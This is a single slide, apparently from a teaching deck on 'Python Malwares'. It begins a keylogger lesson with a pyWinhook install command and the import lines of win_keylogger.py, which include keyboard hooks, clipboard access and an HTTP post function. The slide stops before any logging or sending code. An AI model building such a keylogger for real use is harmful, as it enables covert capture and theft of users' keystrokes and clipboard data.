

Python Malwares (cont.)
Writing a Keylogger (cont.)
We will now install pyWinhook:
pip install pyWinhook
Now with all the dependencies installed, we will start by creating a file win_keylogger.py:
from ctypes import (
    windll,
    c_ulong,
    create_string_buffer,
    byref
)
from time import sleep
from requests import post
from threading import Thread
import sys
import pythoncom
import pyWinhook
import win32clipboard
...
130